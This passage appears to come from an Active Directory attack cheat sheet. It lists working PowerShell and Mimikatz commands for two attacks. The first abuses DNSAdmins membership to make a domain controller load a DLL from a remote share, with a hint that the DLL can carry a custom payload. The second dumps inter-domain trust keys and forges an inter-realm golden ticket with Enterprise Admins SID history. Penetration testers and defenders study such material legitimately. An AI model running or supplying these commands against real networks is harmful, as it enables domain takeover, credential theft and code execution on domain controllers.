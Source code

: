 - Enumerate the memebers of the DNSAdmins group using ActiveDirectory Module, then compromise a member of this group

```
PS C:\> Get-ADGroupMember -Identity DNSAdmins
```

- Configure DLL using dnscmd.exe (needs RSAT DNS), using a member of the DNSAdmins group (make sure mimilib.dll is shared with Everyone = right-click a folder -> Properties -> Sharing -> Share -> Everyone = Read Permission Level)

```
PS C:\> dnscmd <Domain Controller> /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll        # By default, the mimilib.dll logs all DNS queries to C:\Windows\System32\kiwidns.log on the target. Can also modify kdns.c for our own payload
```

- Use DNSServer module (needs RSAT DNS), using a member of the DNSAdmins group (make sure mimilib.dll is shared with Everyone = right-click a folder -> Properties -> Sharing -> Share -> Everyone = Read Permission Level)

```
PS C:\> $dnsettings = Get-DnsServerSetting -ComputerName <Domain Controller> -Verbose -All
PS C:\> $dnsettings.ServerLevelPluginDll = "\\172.16.50.100\dll\mimilib.dll"
PS C:\> Set-DnsServerSetting -InputObject $dnsettings -ComputerName <Domain Controller> -Verbose        # By default, the mimilib.dll logs all DNS queries to C:\Windows\System32\kiwidns.log on the target. Can also modify kdns.c for our own payload
```

- Restart the DNS service (assuming the DNSAdmins group has the permission to do so) - By default, the mimilib.dll logs all DNS queries to C:\Windows\System32\kiwidns.log

```
PS C:\> sc \\<Domain Controller> stop dns
PS C:\> sc \\<Domain Controller> start dns
```

### DA to EA: Child to Parent (Trust Tickets)

- Dump the trust key

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName <Domain Controller>        # Trust key will be under [In] Child -> Parent, then under rc4_hmac_nt
OR
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:test\test2$"'        # Trust key will be under Credentials -> Hash NTLM
```

- Forge an inter-realm TGT (Parent DC will trust anything in the TGT, so write SID history of Enterprise Admins group) (make sure to remove past tickets you have saved, otherwise it will error)

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Current Domain> /sid:<SID of current domain> /sids:<SID of the Enterprise Admins group of the parent domain> /rc4:<RC4 of the trust key> /service:krbtgt /target:<Parent Domain Name> /ticket:<Path where ticket is to be saved e.g. C:\AD\Tools\kekeo_old\trust_tkt.kirbi>"'
```
